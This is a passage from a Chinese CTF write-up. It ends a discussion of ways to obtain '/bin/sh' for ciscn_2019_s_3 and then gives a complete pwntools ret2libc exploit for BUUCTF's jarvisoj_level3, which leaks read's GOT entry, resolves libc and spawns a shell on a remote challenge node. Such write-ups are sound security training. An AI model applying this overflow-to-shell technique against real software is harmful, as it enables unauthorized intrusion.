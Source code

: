 同时我们发现，我们能够通过write打印出栈区某处的地址，与当前rsp的差值固定。因此还可以直接通过read读取'/bin/sh'字符串到栈上，再通过write获取栈区地址以获取我们构造的'/bin/sh'的地址。此种方法清参见[别人写的wp](https://blog.csdn.net/m0_52231248/article/details/121361488?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165259686716782350962406%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=165259686716782350962406&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-121361488-null-null.142^v9^control,157^v4^control&utm_term=ciscn_2019_s_3&spm=1018.2226.3001.4187)。

由此，这道题获取'/bin/sh'地址有两种方法，getshell也有两种方法，组合一下就能写出4种不同的exp。在学习过程中，不能以做出来题为目标，而应深入思考内部的原理，以及有没有其他的方法。

# buu031-jarvisoj_level3

```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27404)
elf = ELF('./pwn')

payload = cyclic(140)
payload += p32(elf.plt['write'])
payload += p32(elf.symbols['vulnerable_function'])
payload += p32(1)
payload += p32(elf.got['read'])
payload += p32(12)

io.sendlineafter(b'Input:\n', payload)

read = u32(io.recv()[0:4])
print(hex(read))
libc = LibcSearcher('read', read)
base = read - libc.dump('read')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(140)
payload += p32(sys)
payload += p32(0xdeadbeef)
payload += p32(binsh)

io.sendline(payload)

io.interactive()
```
